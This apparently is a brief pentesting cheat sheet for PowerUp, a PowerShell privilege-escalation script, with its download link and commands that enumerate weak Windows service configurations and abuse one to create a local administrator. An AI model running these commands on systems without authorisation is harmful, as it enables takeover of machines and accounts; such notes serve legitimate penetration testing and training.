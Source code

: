 # PowerUp

## Download

<https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1>

## Local Privilege Escalation

Non-exhaustive list  

```powershell
# Local queries only
Get-ServiceUnquoted -Verbose    # services without a quoted service path
Get-ModifiableServiceFile -Verbose    # edit a binary
Get-ModifiableService -Verbose    # modify service config

Invoke-AllChecks -Verbose    # all privesc checks

Invoke-ServiceAbuse   # modify vulnerbale service to create a local admin or execute a custom command
```

